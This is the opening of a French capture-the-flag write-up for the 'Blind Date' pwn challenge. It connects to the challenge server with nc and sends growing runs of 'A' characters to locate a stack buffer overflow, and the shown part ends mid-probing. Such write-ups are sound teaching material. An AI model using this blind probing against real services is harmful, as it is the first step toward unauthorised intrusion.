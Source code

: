 # Blind Date - pwn

Énoncé : 
![énoncé](blind_date.png)

## Premières connexions au challenge
On se connecte au challenge : 
```
$ nc challenges2.france-cybersecurity-challenge.fr 4008
Hello you.
What is your name ?
>>> toto
Thanks toto
Bye!
```
Le programme est tout simple, il demande une entrée puis renvoie simplement cette entrée.
Tentons avec une entrée légèrement plus grande : 
```
$ python -c "print 'A'*200" | nc challenges2.france-cybersecurity-challenge.fr 4008
Hello you.
What is your name ?
>>> 
```
Le programme ne renvoie rien, il a sûrement planté et nous avons donc probablement affaire à un buffer overflow.
On a dù écraser le canary présent sur la stack ou la sauvegarde de EIP/RIP.
On réessaie avec un peu moins de 'A' jusqu'à trouver la limite à partir de laquelle le programme va planter : 
```
$ python -c "print 'A'*100" | nc challenges2.france-cybersecurity-challenge.fr 4008
Hello you.
What is your name ?
>>> 
$ python -c "print 'A'*50" | nc challenges2.france-cybersecurity-challenge.fr 4008
Hello you.
What is your name ?
>>> 
$ python -c "print 'A'*39" | nc challenges2.france-cybersecurity-challenge.fr 4008
Hello you.
What is your name ?
```